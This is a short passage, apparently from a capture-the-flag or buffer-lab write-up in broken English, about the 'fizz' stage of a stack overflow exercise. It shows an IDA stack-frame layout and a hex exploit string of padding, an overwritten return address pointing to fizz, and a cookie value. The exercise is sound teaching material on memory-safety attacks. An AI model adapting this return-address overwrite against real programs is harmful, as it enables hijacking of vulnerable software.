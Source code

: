 
but know we have one question where should we put this cookie

in other world what is the fizz variable a1 location

let we see about this we can see a1(arg_0) distance ebp +8

```
00000018
-00000018                 db ? ; undefined
-00000017                 db ? ; undefined
-00000016                 db ? ; undefined
-00000015                 db ? ; undefined
-00000014                 db ? ; undefined
-00000013                 db ? ; undefined
-00000012                 db ? ; undefined
-00000011                 db ? ; undefined
-00000010                 db ? ; undefined
-0000000F                 db ? ; undefined
-0000000E                 db ? ; undefined
-0000000D                 db ? ; undefined
-0000000C                 db ? ; undefined
-0000000B                 db ? ; undefined
-0000000A                 db ? ; undefined
-00000009                 db ? ; undefined
-00000008                 db ? ; undefined
-00000007                 db ? ; undefined
-00000006                 db ? ; undefined
-00000005                 db ? ; undefined
-00000004                 db ? ; undefined
-00000003                 db ? ; undefined
-00000002                 db ? ; undefined
-00000001                 db ? ; undefined
+00000000  s              db 4 dup(?)
+00000004  r              db 4 dup(?)
+00000008 arg_0           dd ?
+0000000C
+0000000C ; end of stack variables
```

ok let me put on my exp

```
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
42 8c 04 08#fizz
00 00 00 00 
07 a7 06 4e#vaule of cookie
```
